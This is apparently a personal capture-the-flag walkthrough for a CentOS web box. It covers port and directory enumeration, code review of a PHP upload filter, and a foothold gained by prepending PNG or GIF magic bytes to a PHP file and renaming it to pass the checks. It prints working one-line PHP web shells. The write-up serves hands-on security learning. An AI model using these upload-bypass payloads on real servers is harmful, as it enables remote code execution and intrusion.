 - nmap shows port 80
	- **Also shows CentOS which is part of Red Hat, comes in important later**
- can use gobuster dir command with dirbuster wordlist
- dirsearch gives 2 links
	- /uploads
	- /backup
		- backup.tar
			- extract it and we find  index.php, upload.php, photos.php
			- each lead to a link
				- can upload at /upload.php
	- Searching the code :
		- we see lib.php does a mime file check.
		- we also see in upload.php that it does another check in the file name
		- Grep to aid you :
			```bash
grep -RI "$_" * # to see how a user interacts with a server
```
			- $_ is a superglobal variable. This is an easy way for user input to be passed into PHP.
				- So we want to see what can a user do?
			- we see `$_FILES` and a `POST:Submit` so we search in uploads.php and file the check file type function
				- we see a check_file_type() function which e can then grep to find which file
					```bash
grep check file*
```
					- lib.php which then shows the mime file check. (checks for any mime with "image/" in it) 
				- we can also see the two Invalid image type errors, one missing a period.
				- this can be a check to it passing either none or one of the 2 checks (magic bytes and filename)
					- so if the magic bytes arent changed we get a slightly different error message showing some progress
## Initial Foothold
- lib.php says theres a file check for mime types
	- **PentestMonkey quick method (What I did first):
		- we can abuse the png type by adding png magic bytes to the beggining on php file and adding .png at the end and then uploading it.
			- make sure the magic bytes dont overwrite the php reverse shell code
	- **Alternate way 1**
		- create and change magic bytes.
			```bash
echo "89 50 4E 47 0D 0A 1A 0A" | xxd -p -r > shell.php.png #magic bytes for png
```
			- Then add the code after the magic byte showing multiple working ones:
				```bash
<?php system($_REQUEST['cmd']); ?>
<?php system($_GET["rocknrj"]); ?>
```
			- Uploaded file should work
	- **Alternate2, BurpSuite, Preferred**
		- we try with gif here.
		- Can repeat what we did for png to find the text in gif (these numbers result in some text)
			- for gif it is
				```bash
GIF8;
```
		- we create shell.php again
		- intercept the upload
		- In BurpSuite: 
			- change the filename to shell.php.gif
			- edit content and add "GIF8;" at the start and forward the packet
			- forward it
		- Can see file is uploaded at photos.php and access it at /uploads/`<filename>` (filename is name we see at photos.php)
```